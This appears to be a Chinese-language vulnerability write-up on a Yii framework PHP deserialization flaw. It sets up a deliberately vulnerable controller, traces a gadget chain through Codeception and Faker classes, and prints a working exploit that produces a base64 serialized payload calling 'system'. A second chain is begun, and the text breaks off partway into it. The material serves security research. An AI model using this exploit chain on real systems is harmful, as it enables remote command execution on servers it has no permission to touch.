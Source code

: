 # 环境搭建
> 修改`config\web.php`中的`cookieValidationKey`为任意值来作为`yii\web\Request::cookieValidationKey`的加密值，不设置的话将会发生报错

> 添加一个`Controller`来作为反序列化漏洞的触发点

```php
<?php

namespace app\controllers;
use yii\web\Controller;

class DemoController extends Controller{
    public function actionDemo($data){
        return unserialize(base64_decode($data));
    }
}
```

# 漏洞分析
> 全局搜索`__destruct()`来寻找反序列化的触发点，查看每个`__destruct()`方法后发现之前许多可以利用的出发点都加上了`__wakeup()`方法来修补反序列化的漏洞

<img src="./images/yii-1.png" alt="">

## POC链-1
> 跟进`vendor\codeception\codeception\ext\RunProcess.php`中的`__destruct()`方法，其会调用`stopProcess()`方法，先对`$this->processes`数组变量进行翻转，由于`$process`变量是可控的，因此可以通过寻找`__call()`方法来进一步寻找利用链

<img src="./images/yii-2.png" alt="">

> 跟进`vendor\fakerphp\faker\src\Faker\ValidGenerator.php`中的`__call()`方法，在 while 语句中存在`call_user_func()`方法，由于`$this->validator`是可控的，所以当`$res`可控时，即可造成命令执行函数的利用，因此需要寻找一个类中的`__call()`方法是返回一个可控的变量值的

<img src="./images/yii-3.png" alt="">

> 跟进`vendor\fakerphp\faker\src\Faker\DefaultGenerator.php`中的`__call()`方法，其返回值是可控的变量值，成功构成一条闭合的利用链

<img src="./images/yii-4.png" alt="">

### exp
```php
<?php

namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
	class ValidGenerator {
    	protected $generator;
    	protected $validator;
    	protected $maxRetries;
    	public function __construct($payload) {
    		$this->generator = new DefaultGenerator($payload);
    		$this->validator = "system";
    		$this->maxRetries = 1;
    	}
	}
}

namespace Codeception\Extension {
	use Faker\ValidGenerator;
	class RunProcess {
		private $processes = [];
		public function __construct($payload="") {
			$this->processes[] = new ValidGenerator($payload);
		}
	}
	echo base64_encode(serialize(new RunProcess("calc")));
}
?>
```

## POC链-2
> 起始点不变，跟进 `vendor\phpspec\prophecy\src\Prophecy\Prophecy\ObjectProphecy.php`中的`__call()`方法，其会调用一个`reveal()`方法，且`$this->revealer`是可控的